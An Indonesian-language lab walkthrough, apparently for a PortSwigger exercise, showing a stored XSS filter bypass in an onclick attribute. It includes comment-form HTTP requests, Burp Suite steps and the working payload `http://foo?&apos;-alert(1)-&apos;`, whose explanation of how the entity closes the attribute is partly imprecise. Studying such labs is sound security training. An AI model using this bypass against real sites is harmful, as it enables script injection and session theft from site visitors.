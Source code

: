 ### **Proof of Concept (PoC) Stored XSS dalam Atribut `onclick` dengan Kurung Sudut dan Tanda Petik Ganda di-HTML-encode serta Tanda Petik Tunggal dan Backslash di-Escape**

#### **Deskripsi Singkat**
Stored Cross-Site Scripting (XSS) adalah jenis kerentanan keamanan web di mana input pengguna yang tidak divalidasi dengan baik disimpan oleh aplikasi web dan direfleksikan kembali kepada pengguna lain. Pada kasus ini, input pengguna disimpan dalam fungsi komentar dan direfleksikan dalam atribut `onclick` sebuah elemen HTML. Namun, karakter kurung sudut (`<`, `>`), tanda petik ganda (`"`), tanda petik tunggal (`'`), dan backslash (`\`) di-encode atau di-escape, sehingga menyulitkan penyisipan kode berbahaya secara langsung. Meskipun demikian, dengan teknik yang tepat, kerentanan ini masih dapat dieksploitasi untuk menyisipkan dan menjalankan kode JavaScript berbahaya.

#### **Langkah-langkah PoC**

1. **Mengirimkan Komentar dengan String Acak pada Input "Website"**
   
   - **Buka Halaman Komentar:** Akses halaman web target yang memungkinkan pengguna untuk memposting komentar.
   - **Isi Formulir Komentar:** Masukkan data berikut ke dalam formulir komentar:
     - **Name:** `test2`
     - **Email:** `test3@test.com`
     - **Website:** `http://test4.com`
     - **Comment:** `test1`
   
   - **Contoh Permintaan HTTP:**
     
     ```
     POST /post/comment HTTP/2
     Host: victim.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: ...

     csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com
     ```
   
   - **Gambar Ilustrasi:**
     
     ![Langkah 1: Mengirimkan Komentar](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/1.png)

2. **Menggunakan Burp Suite untuk Menangkap dan Mengirim ke Repeater**
   
   - **Aktifkan Proxy Burp Suite:**
     - Buka **Burp Suite** dan aktifkan proxy.
     - Pastikan browser Anda dikonfigurasi untuk menggunakan proxy Burp Suite.
   
   - **Kirim Komentar:**
     - Kirim komentar seperti langkah sebelumnya sehingga permintaan HTTP melewati Burp Suite.
   
   - **Intercept Permintaan:**
     - Di tab **Proxy > HTTP history**, temukan permintaan komentar tersebut.
     - Klik kanan pada permintaan dan pilih **"Send to Repeater"**.
   
   - **Gambar Ilustrasi:**
     
     ![Langkah 2: Mengirim ke Repeater](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/2.png)

3. **Mengamati Refleksi Input dalam Atribut `onclick`**
   
   - **Kirim Permintaan ke Repeater:**
     - Di tab **Repeater**, perhatikan bagaimana input `http://test4.com` direfleksikan dalam atribut `onclick`:
     
       ```html
       <a id="author" href="http://test4.com" onclick="var tracker={track(){}};tracker.track('http://test4.com');">test2</a>
       ```
   
   - **Analisis Sanitasi:**
     - Tanda petik tunggal (`'`) dan backslash (`\`) di-escape.
     - Karakter kurung sudut (`<`, `>`) dan tanda petik ganda (`"`) di-HTML-encode, misalnya `&lt;`, `&gt;`, dan `&quot;`.
   
   - **Gambar Ilustrasi:**
     
     ![Langkah 3: Refleksi dalam Atribut onclick](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/3.png)

4. **Mengirim Payload yang Berhasil Menembus Penyaringan**
   
   - **Susun Payload:**
     - Gunakan payload berikut pada input "Website":
       
       ```
       http://foo?&apos;-alert(1)-&apos;
       ```
     
     - **Penjelasan Payload:**
       - `http://foo?`: URL palsu sebagai basis.
       - `&apos;`: HTML-encode tanda petik tunggal (`'`), berfungsi untuk menutup atribut yang sedang dibuka.
       - `-alert(1)-`: Memanggil fungsi `alert(1)` untuk menampilkan popup.
       - `&apos;`: Menutup kembali atribut atau mencegah sintaks berikutnya.
   
   - **Kirim Komentar dengan Payload:**
     - Ulangi proses pengiriman komentar, tetapi kali ini masukkan payload di atas pada input "Website":
     
       ```
       Website: http://foo?&apos;-alert(1)-&apos;
       ```
   
   - **Contoh Permintaan HTTP dengan Payload:**
     
     ```
     POST /post/comment HTTP/2
     Host: victim.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: ...

     csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ffoo%3F&apos;-alert(1)-&apos;
     ```
   
   - **Gambar Ilustrasi:**
     
     ![Langkah 4: Mengirim Payload](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/4.png)

5. **Memverifikasi Eksekusi Payload**
   
   - **Salin URL:**
     - Di **Repeater**, klik kanan pada permintaan dengan payload dan pilih **"Copy URL"**.
   
   - **Buka Browser dan Paste URL:**
     - Buka browser (disarankan **Chrome** sesuai instruksi lab) dan tempelkan URL yang telah disalin.
   
   - **Klik Nama Pengguna:**
     - Pada halaman yang ditampilkan, klik pada nama pengguna (`test2`). Jika payload berhasil dieksekusi, sebuah popup alert dengan pesan `1` akan muncul.
   
   - **Gambar Ilustrasi:**
     
     ![Langkah 5: Eksekusi Payload](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/5.png)

#### **Mengapa Payload Ini Berfungsi?**

Meskipun karakter khusus seperti tanda petik tunggal (`'`) dan backslash (`\`) di-escape, serta kurung sudut (`<`, `>`) dan tanda petik ganda (`"`) di-HTML-encode, payload `http://foo?&apos;-alert(1)-&apos;` berhasil memecah atribut `onclick` yang ada. Berikut adalah bagaimana payload bekerja:

1. **Menutup Atribut `onclick`:**
   
   - `&apos;`: Mengakhiri string yang sedang dibuka dalam atribut `onclick`.

2. **Memasukkan Fungsi JavaScript:**
   
   - `-alert(1)-`: Memanggil fungsi `alert(1)` untuk menampilkan popup.

3. **Mencegah Sintaks Berikutnya:**
   
   - `&apos;`: Menutup atribut atau mengomentari sisa kode untuk mencegah error sintaks.

Sehingga, hasil akhir pada HTML setelah injeksi payload adalah sebagai berikut:

```html
<a id="author" href="http://foo?&apos;-alert(1)-&apos;" onclick="var tracker={track(){}};tracker.track('http://foo?&apos;-alert(1)-&apos;');">test2</a>
```

Ketika pengguna mengklik nama `test2`, atribut `onclick` yang telah dimodifikasi akan menjalankan `alert(1)`.

#### **Catatan Penting**

- **Keamanan:** Stored XSS dapat digunakan untuk mencuri informasi sensitif seperti cookie sesi, melakukan pengambilalihan akun, atau mengubah tampilan dan fungsi halaman web.
  
- **Etika:** Melakukan eksploitasi XSS tanpa izin adalah ilegal dan melanggar etika. PoC ini disediakan hanya untuk tujuan edukasi dan membantu dalam memahami serta mencegah kerentanan keamanan.

- **Browser Spesifik:** Pastikan untuk menguji payload pada browser yang ditentukan (Chrome) karena perilaku penanganan XSS dapat berbeda antar browser.

#### **Referensi:**

- [Cross-Site Scripting (XSS) di Konteks yang Berbeda](https://portswigger.net/web-security/cross-site-scripting/contexts)

---

![Gambar Ilustrasi Langkah 1](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/6.png)
![Gambar Ilustrasi Langkah 2](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/7.png)
![Gambar Ilustrasi Langkah 3](images/Stored%20XSS%20into%20onclick%20event%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20and%20backslash%20escaped/8.png)
